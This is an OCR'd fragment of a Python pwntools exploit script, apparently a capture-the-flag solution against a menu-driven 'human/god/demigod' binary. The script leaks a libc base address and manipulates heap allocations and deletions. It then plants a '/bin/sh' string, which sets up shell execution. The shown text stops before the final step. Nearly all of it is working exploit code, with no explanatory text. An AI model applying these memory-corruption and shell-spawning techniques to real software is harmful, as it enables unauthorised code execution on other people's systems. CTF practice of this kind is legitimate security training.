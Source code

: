 ```python
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ','2')
s.sendlineafter(': ',"4") # speed

s.sendlineafter('> ','1')
s.sendlineafter(': ',str(0x100)) # len
s.sendafter(': ',"A") # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"3") # view

s.recvuntil('4\nHuman NAME: ')
libc_base = u32(s.recv(8)[4:]) - 0x1b27b0
log.info("LIBC_BASE : " + hex(libc_base))

s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"2") # god
s.sendlineafter('> ',"1") # create

for i in range(4):
	s.sendlineafter(': ','1234')

s.sendlineafter(': ',str(0x30)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter(': ','B') # abilities

# create demigod --- god
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"3") # demigod
s.sendlineafter('> ',"1") # create

s.sendlineafter(': ','4') # dad
s.sendlineafter(': ','4') # mom
s.sendlineafter(': ','30') # len
s.sendlineafter(': ','A') #name
s.sendlineafter(': ','A') # ability
s.sendlineafter('> ','2')
s.sendlineafter(': ',"0") # delete

# create human
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # create
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','/bin/sh') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
```